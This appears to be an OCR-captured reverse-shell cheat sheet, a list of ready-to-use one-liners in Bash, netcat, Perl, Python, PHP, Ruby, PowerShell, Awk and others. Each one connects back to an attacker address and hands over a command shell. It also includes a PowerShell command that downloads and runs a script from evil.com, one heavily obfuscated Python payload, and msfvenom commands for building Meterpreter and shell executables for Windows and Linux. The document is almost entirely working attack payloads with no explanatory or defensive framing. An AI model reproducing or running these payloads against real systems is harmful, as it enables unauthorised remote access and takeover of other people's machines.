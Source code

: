 * Bash

  ```bash -i >& /dev/tcp/192.168.1.2/443 0>&1```

* Netcat

  ```nc -e /bin/sh 192.168.1.2 443```

  ```nc -e /bin/bash 192.168.1.2 443```

  ```nc -c bash 192.168.1.2 443```

  ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.2 443 >/tmp/f```

  ```nc.exe -e cmd 192.168.1.26 443```

* Perl

  ```perl -e 'use Socket;$i="192.168.1.2";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```

* Python

  ```export RHOST="192.168.1.2";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'```

  ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.2",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```

  ```C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('192.168.1.2', 443)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"```

* PHP

  ```php -r '$sock=fsockopen("192.168.1.2",443);exec("/bin/sh -i <&3 >&3 2>&3");'```

  ```php -r '$sock=fsockopen("192.168.1.2",443);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'```

* Ruby

  ```ruby -rsocket -e'f=TCPSocket.open("192.168.1.2",443).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

  ```ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'```

  ```ruby -rsocket -e 'c=TCPSocket.new("192.168.1.2","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'```

* Xterm

  ```xterm -display 192.168.1.2:443```


* Ncat

  ```ncat 192.168.1.2 443 -e /bin/bash```

* Powershell

  ```powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.168.1.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```

  ```powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.1.2',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"```

  ```powershell IEX (New-Object Net.WebClient).DownloadString('https://www.evil.com/reverse.ps1')```

* Awk

  ```awk 'BEGIN {s = "/inet/tcp/0/192.168.1.2/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null```

* War

  ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war strings reverse.war | grep jsp # in order to get the name of the file```

* Msfvenom

  * Windows

* Meterpreter (Metasploit Listener multi/handler) [Staged]

  * x86```msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Shell (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p windows/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Shell (Netcat Listener) [Stageless]

x86 > ```msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

x64 > ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f exe > reverse.exe```

### Linux :

### Meterpreter (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

### Shell (Metasploit Listener multi/handler) [Staged]

x86 > ```msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

### Shell (Netcat Listener) [Stageless]

x86 > ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```

x64 > ```msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f elf > reverse.elf```
